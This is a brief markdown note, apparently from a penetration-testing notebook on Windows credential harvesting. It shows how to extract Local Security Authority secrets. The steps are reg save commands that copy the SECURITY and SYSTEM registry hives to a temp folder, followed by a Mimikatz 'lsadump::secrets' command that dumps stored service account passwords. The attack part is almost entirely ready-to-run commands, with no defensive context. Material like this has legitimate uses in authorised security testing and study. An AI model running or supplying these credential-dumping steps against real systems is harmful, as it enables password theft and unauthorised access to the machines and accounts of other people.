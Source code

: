 # Index
- [[ Windows Credential Harvesting]]
#### Extracting LSA Secrets

The **Local Security Authority (LSA)** stores sensitive information, including service account passwords. You can extract these secrets with **Mimikatz:**

- **CMD:** Save the SECURITY and SYSTEM hives:
    ```cmd
    reg save HKLM\SECURITY C:\Windows\Temp\SECURITY
    reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
    ```

- **Mimikatz:** Dump LSA secrets:
    ```cmd
    mimikatz.exe "lsadump::secrets" exit
    ```